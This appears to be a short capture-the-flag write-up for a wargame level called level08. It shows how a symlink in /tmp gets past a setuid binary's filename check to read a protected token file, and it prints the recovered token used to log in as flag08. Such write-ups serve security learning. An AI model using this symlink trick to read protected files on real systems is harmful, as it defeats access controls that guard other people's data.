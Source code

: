 When we started the level08, we can see two differents files:
- A binary called **level08**
- A file called **token**

We do not have the permissions to use token, and when executing **level07**, we got this:
```bash
./level08 [file to read]
```

When trying to place token as argument we got an error:
```bash
You may not access './token'
```

Using strings we can see that **level08** use strstr, probably to compare if the argument is called "token".

So going from that idea, we tryed making a SymLink using:

```bash
ln -s /home/user/level08/token /tmp/test
```

and then we do:
```bash
./level08 /tmp/test
```

and we got:
```
quif5eloekouj29ke0vouxean
```
We log to the user flag08 with the token and do getflag.